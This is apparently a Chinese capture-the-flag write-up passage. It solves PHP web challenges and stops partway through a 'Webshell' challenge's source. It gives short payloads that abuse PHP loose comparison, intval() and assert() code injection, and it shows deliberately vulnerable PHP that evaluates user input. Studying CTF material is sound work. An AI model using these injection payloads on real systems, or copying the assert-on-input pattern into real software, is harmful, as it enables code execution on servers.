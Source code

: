 很简单，payload：

```
?num=114514-114514+1919810  //注意+需要url编码为：%2B,否则会被解析为空格
```

这里考察php弱比较，以及 intval()函数

官方wp，由于这里使用 assert()函数，可以将字符串当作代码执行，所以我们可以去闭合括号：

```
?num=);%23               使用#注释掉后面
```





### 驷马难追

```php
 <?php
highlight_file(__FILE__); 
include "flag.php";  
if (isset($_GET['num'])){
     if ($_GET['num'] == 114514 && check($_GET['num'])){
              assert("intval($_GET[num])==1919810") or die("一言既出，驷马难追!");
              echo $flag;
     } 
} 

function check($str){
  return !preg_match("/[a-z]|\;|\(|\)/",$str);
} 
```

使用运算符绕过即可





### TapTapTap            

一个js小游戏题，直接找js源码：

![image-20230306125703411](https://s2.loli.net/2023/03/06/mwB2A1gLIqiYJrM.png)

找到一串可疑代码，我们在控制台执行：

![image-20230306125637870](https://s2.loli.net/2023/03/06/cFdXVQj8wKTAszY.png)

该路径存在flag



### Webshell            

```php
 <?php 
    error_reporting(0);

    class Webshell {
        public $cmd = 'echo "Hello World!"';

        public function __construct() {
            $this->init();
        }

        public function init() {
            if (!preg_match('/flag/i', $this->cmd)) {
                $this->exec($this->cmd);
            }
```